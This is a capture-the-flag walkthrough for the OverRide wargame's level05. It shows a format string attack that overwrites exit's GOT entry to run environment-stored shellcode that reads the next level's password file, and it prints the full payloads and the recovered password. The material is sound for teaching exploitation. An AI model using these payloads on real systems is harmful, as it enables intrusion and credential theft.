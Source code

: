In this level, we will use a format string attack to execute our shellcode, which we will add to our environment instead of the exit function.

```c
printf(&var_78);
exit(0);
```

To do this, we will first retrieve the address of the exit function in da GOT.
```
level05@OverRide:~$ objdump -R ./level05

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit  <-------------
080497e4 R_386_JUMP_SLOT   __libc_start_main
```


Add our shellcode here; I'm using the shellcode from the previous level.
```
export EXPLOIT=$(python -c 'print("\x90" * 200 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass")')
```
Find the address of the environment variable.

```
0xffffd85d
```

Normally, we could have done print(exit_addr + %adr_shellcode_in_decimald%10$n), but adr_shellcode_in_decimal is 4294957148, which is rather long. So, we will do it differently; we will write 2 bytes at a time.
```
level05@OverRide:~$ ./level05
aaaabbbb%10$x%11$x
aaaabbbb6161616162626262
```
We will replace the 'a' above with 080497e0 and the 'b' with 080497e2.
Since we are in little-endian, we will first write the 2 low bytes and then the high ones

```
0xffffd85d

ffff = 65535 high
D85D = 55389 low
```

So for the low bytes, we will write 55388 - 8 into \xe0\x97\x04\x08. We subtract 8 because we will write the target addresses.
And for the high bytes we make a simple substraction 65535 - 55389 = 10146 Because, by the time we write the higher bytes, we would have already written the lower ones, and since %n counts the number of bytes already written, we will perform a subtraction to eliminate the bytes already written. Weill write 10146 into \xe2\x97\x04\x08

This gives us the final result:
```
level05@OverRide:~$ python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55381d%10$hn" + "%10146d%11$hn")' | ./level05
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
